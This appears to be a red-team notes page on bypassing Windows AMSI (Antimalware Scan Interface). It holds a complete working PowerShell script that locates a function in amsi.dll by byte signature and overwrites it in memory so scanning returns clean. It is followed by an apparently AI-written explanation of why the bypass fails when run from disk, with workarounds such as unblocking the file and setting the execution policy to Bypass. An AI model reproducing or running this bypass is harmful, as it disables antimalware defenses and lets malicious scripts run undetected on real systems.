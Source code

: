 ### TO DO:
- https://github.com/V-i-x-x/AMSI-BYPASS/
- https://www.offsec.com/blog/amsi-write-raid-0day-vulnerability/
- https://practicalsecurityanalytics.com/new-amsi-bypass-using-clr-hooking/

## Powershell

- from https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass
```powershell
Write-Host "-- AMSI Patch"
Write-Host "-- Modified By: Shantanu Khandelwal (@shantanukhande)"
Write-Host "-- Original Author: Paul Laîné (@am0nsec)"
Write-Host ""

Class Hunter {
    static [IntPtr] FindAddress([IntPtr]$address, [byte[]]$egg) {
        while ($true) {
            [int]$count = 0

            while ($true) {
                [IntPtr]$address = [IntPtr]::Add($address, 1)
                If ([System.Runtime.InteropServices.Marshal]::ReadByte($address) -eq $egg.Get($count)) {
                    $count++
                    If ($count -eq $egg.Length) {
                        return [IntPtr]::Subtract($address, $egg.Length - 1)
                    }
                } Else { break }
            }
        }

        return $address
    }
}
function Get-ProcAddress {
    Param(
        [Parameter(Position = 0, Mandatory = $True)] [String] $Module,
        [Parameter(Position = 1, Mandatory = $True)] [String] $Procedure
    )

    # Get a reference to System.dll in the GAC
    $SystemAssembly = [AppDomain]::CurrentDomain.GetAssemblies() |
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
    $UnsafeNativeMethods = $SystemAssembly.GetType('Microsoft.Win32.UnsafeNativeMethods')
    # Get a reference to the GetModuleHandle and GetProcAddress methods
    $GetModuleHandle = $UnsafeNativeMethods.GetMethod('GetModuleHandle')
    $GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String]))
    # Get a handle to the module specified
    $Kern32Handle = $GetModuleHandle.Invoke($null, @($Module))
    $tmpPtr = New-Object IntPtr
    $HandleRef = New-Object System.Runtime.InteropServices.HandleRef($tmpPtr, $Kern32Handle)
    # Return the address of the function
    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef]$HandleRef, $Procedure))
}
function Get-DelegateType
{
    Param
    (
        [OutputType([Type])]
            
        [Parameter( Position = 0)]
        [Type[]]
        $Parameters = (New-Object Type[](0)),
            
        [Parameter( Position = 1 )]
        [Type]
        $ReturnType = [Void]
    )

    $Domain = [AppDomain]::CurrentDomain
    $DynAssembly = New-Object System.Reflection.AssemblyName('ReflectedDelegate')
    $AssemblyBuilder = $Domain.DefineDynamicAssembly($DynAssembly, [System.Reflection.Emit.AssemblyBuilderAccess]::Run)
    $ModuleBuilder = $AssemblyBuilder.DefineDynamicModule('InMemoryModule', $false)
    $TypeBuilder = $ModuleBuilder.DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $ConstructorBuilder = $TypeBuilder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $Parameters)
    $ConstructorBuilder.SetImplementationFlags('Runtime, Managed')
    $MethodBuilder = $TypeBuilder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $ReturnType, $Parameters)
    $MethodBuilder.SetImplementationFlags('Runtime, Managed')
        
    Write-Output $TypeBuilder.CreateType()
}
$LoadLibraryAddr = Get-ProcAddress kernel32.dll LoadLibraryA
$LoadLibraryDelegate = Get-DelegateType @([String]) ([IntPtr])
$LoadLibrary = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($LoadLibraryAddr, $LoadLibraryDelegate)
$GetProcAddressAddr = Get-ProcAddress kernel32.dll GetProcAddress
$GetProcAddressDelegate = Get-DelegateType @([IntPtr], [String]) ([IntPtr])
$GetProcAddress = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($GetProcAddressAddr, $GetProcAddressDelegate)
$VirtualProtectAddr = Get-ProcAddress kernel32.dll VirtualProtect
$VistualProtectDelegate =  Get-DelegateType @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool])
$VirtualProtect = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($VirtualProtectAddr, $VistualProtectDelegate)


If ([IntPtr]::Size -eq 8) {
    Write-Host "[+] 64-bits process"
    [byte[]]$egg = [byte[]] (
        0x4C, 0x8B, 0xDC,       # mov     r11,rsp
        0x49, 0x89, 0x5B, 0x08, # mov     qword ptr [r11+8],rbx
        0x49, 0x89, 0x6B, 0x10, # mov     qword ptr [r11+10h],rbp
        0x49, 0x89, 0x73, 0x18, # mov     qword ptr [r11+18h],rsi
        0x57,                   # push    rdi
        0x41, 0x56,             # push    r14
        0x41, 0x57,             # push    r15
        0x48, 0x83, 0xEC, 0x70  # sub     rsp,70h
    )
} Else {
    Write-Host "[+] 32-bits process"
    [byte[]]$egg = [byte[]] (
        0x8B, 0xFF,             # mov     edi,edi
        0x55,                   # push    ebp
        0x8B, 0xEC,             # mov     ebp,esp
        0x83, 0xEC, 0x18,       # sub     esp,18h
        0x53,                   # push    ebx
        0x56                    # push    esi
    )
}


$hModule = $LoadLibrary.Invoke("amsi.dll")
Write-Host "[+] AMSI DLL Handle: $hModule"
$DllGetClassObjectAddress = $GetProcAddress.Invoke($hModule, "DllGetClassObject")
Write-Host "[+] DllGetClassObject address: $DllGetClassObjectAddress"
[IntPtr]$targetedAddress = [Hunter]::FindAddress($DllGetClassObjectAddress, $egg)
Write-Host "[+] Targeted address: $targetedAddress"

$oldProtectionBuffer = 0
$VirtualProtect.Invoke($targetedAddress, [uint32]2, 4, [ref]$oldProtectionBuffer) | Out-Null

$patch = [byte[]] (
    0x31, 0xC0,    # xor rax, rax
    0xC3           # ret  
)
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $targetedAddress, 3)

$a = 0
$VirtualProtect.Invoke($targetedAddress, [uint32]2, $oldProtectionBuffer, [ref]$a) | Out-Null
```



The difference in behavior between running the script with `iex` (Invoke-Expression) and running it directly in a PowerShell terminal is likely due to how the **Antimalware Scan Interface (AMSI)** and PowerShell execution policies interact with scripts.

### **Why the Script Works with `iex` but Fails When Run Directly**

1. **AMSI Detection:**
   - **AMSI** is a security feature that scans scripts and code running in PowerShell to detect and block malicious activity. When you use `iex` to download and execute the script from memory, it can sometimes bypass AMSI detection because the script may be obfuscated or executed in a way that temporarily evades the scan.
   - However, when you run the script directly by right-clicking and selecting "Run with PowerShell," the script is read from disk and passed through AMSI, which might detect and block it.

2. **Script Execution Policy:**
   - PowerShell’s **execution policies** control the conditions under which PowerShell loads configuration files and runs scripts.
   - If your script is downloaded from the internet, it might be marked as "blocked" by Windows. When you right-click and run it, PowerShell may enforce the execution policy or AMSI check more strictly.
   - The script may also be subject to **Zone Identifier metadata**, which marks the script as having been downloaded from the web, triggering additional security checks.

### **Solutions and Workarounds**

1. **Unblock the Script:**
   - If the script was downloaded from the internet, it might be blocked by Windows. You can unblock it using the following command:
     ```powershell
     Unblock-File -Path "C:\path\to\your\script.ps1"
     ```
   - This removes the Zone Identifier metadata and might prevent AMSI from blocking it when run directly.

2. **Execution Policy Consideration:**
   - Check the current execution policy using:
     ```powershell
     Get-ExecutionPolicy
     ```
   - If the policy is too restrictive (e.g., `AllSigned` or `Restricted`), you may want to temporarily change it to allow script execution:
     ```powershell
     Set-ExecutionPolicy Bypass -Scope Process
     ```
   - This will allow the script to run without changing the policy for the entire system.

3. **AMSI Bypass Techniques:**
   - AMSI bypass techniques often rely on obfuscation or exploiting specific behavior in PowerShell. These might work differently depending on how the script is executed (from memory vs. from disk).
   - If the bypass fails when the script is run directly, it could be due to AMSI detecting a signature within the script that’s more apparent when read from disk.

### **Testing and Debugging**

- **Verbose Output**: Run the script with verbose output to get more details about what’s failing:
  ```powershell
  powershell.exe -ExecutionPolicy Bypass -File "C:\path\to\your\script.ps1" -Verbose
  ```

- **Log and Monitor**: Use logging or monitoring tools to see where the script might be getting blocked. The Windows Event Viewer or a PowerShell transcript might provide more insight.

### **Summary**
- **AMSI** may detect and block the script when it’s run directly from disk due to more stringent scanning.
- **Execution Policy** or **Zone Identifier** metadata might be preventing the script from running as expected.
- Try **unblocking the script** or **adjusting the execution policy** temporarily to see if it resolves the issue.
